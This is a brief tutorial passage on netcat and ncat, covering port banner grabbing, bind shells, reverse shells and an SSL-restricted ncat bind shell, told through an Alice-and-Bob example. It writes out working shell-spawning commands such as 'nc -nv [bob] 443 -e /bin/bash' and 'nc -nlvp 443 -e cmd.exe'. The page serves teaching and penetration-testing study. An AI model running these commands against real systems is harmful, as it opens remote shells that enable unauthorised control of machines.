 Connect to an open TCP or UDP port \(e.g. mail service\) to see if it responds:

```text
nc -nv [host] 110
(UNKNOWN) [host] 110 (pop3) open
+OK POP3 server ready
```

### Bind shell

Bob \(Windows\) wants Alice \(Linux\) to connect to his computer remotely and issue commands. Bob sets up a listener which allows anyone connect to port 443 to issue commands via `cmd.exe`:

```text
nc -nlvp 443 -e cmd.exe
```

Alice then connects to Bob's machine and gets a Windows command prompt:

```text
nc -nv [bob] 443
```

### Reverse shell

Netcat can also send a command shell to a listening host. Let's say Alice \(Linux\) wants Bob \(Windows\) to issue remote commands to her computer.

Bob sets up a listener on his machine:

```text
nc -nlvp 443
listening on [any] 443...
```

Alice then sends control of her command prompt to Bob's machine, via netcat:

```text
nc -nv [bob] 443 -e /bin/bash
```

This is what hackers mean by popping shells, but usually it's getting a web server/desktop to send a reverse shell to your attack machine.

## Ncat

It's like netcat, but can encrypt connections and restrict access.

Taking the example of Bob \(Windows\) setting up a bind shell so that only Alice \(Linux\) could connect to it via SSL, his listener would look like this:

```text
ncat --exec cmd.exe --allow [alice] -vnl 443 --ssl
```

Alice would connect securely to Bob:

```text
ncat -v [bob] 443 --ssl
```
